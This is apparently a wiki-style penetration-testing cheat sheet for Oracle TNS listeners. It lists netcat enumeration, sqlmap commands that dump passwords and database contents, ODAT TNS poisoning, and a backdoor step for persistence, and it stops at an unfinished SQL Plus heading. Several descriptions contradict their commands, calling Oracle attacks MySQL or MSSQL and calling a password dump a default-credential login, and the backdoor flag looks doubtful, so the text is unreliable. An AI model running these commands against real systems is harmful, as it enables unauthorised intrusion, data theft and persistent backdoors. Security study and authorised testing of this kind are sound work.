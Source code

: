 #### Service Enumeration

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 1521
    ```
* **Description:** Retrieves the service banner to identify the software version and potential vulnerabilities.

### Initial Access

#### Exploiting Default Credentials

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable.php?id=1" --dbms=oracle --batch --passwords
    ```
* **Description:** Attempts to log in using default or weak credentials to gain access to the MySQL database.

#### Exploiting SQL Injection

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable_page.php?id=1" --dbms=oracle --dump
    ```
* **Description:** Exploits SQL Injection vulnerabilities to extract data from MSSQL databases.

#### Exploiting TNS Poisoning

*   **Tool:** \[\[ODAT]]

    ```bash
    ./odat.py tnspoison -s <target_ip> -p 1521 --sid orcl
    ```
* **Description:** Exploiting TNS poisoning vulnerabilities to manipulate database connections.

### Persistence

#### Backdooring TNS Listener

*   **Tool:** \[\[Custom Scripts]] \[\[ODAT]]

    ```bash
    ./odat.py tnspoison -s <target_ip> -p 1521 --sid orcl --backdoor
    ```
* **Description:** Install a persistent backdoor in the TNS Listener to maintain access to the Oracle database.

#### Backdoor Listener Configuration

*   **Tool:** \[\[SQL Plus]]
